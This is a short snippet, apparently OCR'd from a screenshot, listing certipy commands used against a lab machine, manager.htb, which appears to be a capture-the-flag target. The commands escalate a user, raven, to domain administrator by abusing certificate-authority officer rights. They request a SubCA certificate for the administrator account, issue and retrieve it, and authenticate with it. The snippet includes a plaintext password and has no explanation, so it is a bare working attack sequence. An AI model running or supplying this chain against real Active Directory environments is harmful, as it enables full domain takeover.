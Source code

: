 certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
certipy ca -ca 'manager-DC01-CA' -issue-request 22 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
certipy req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 22
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
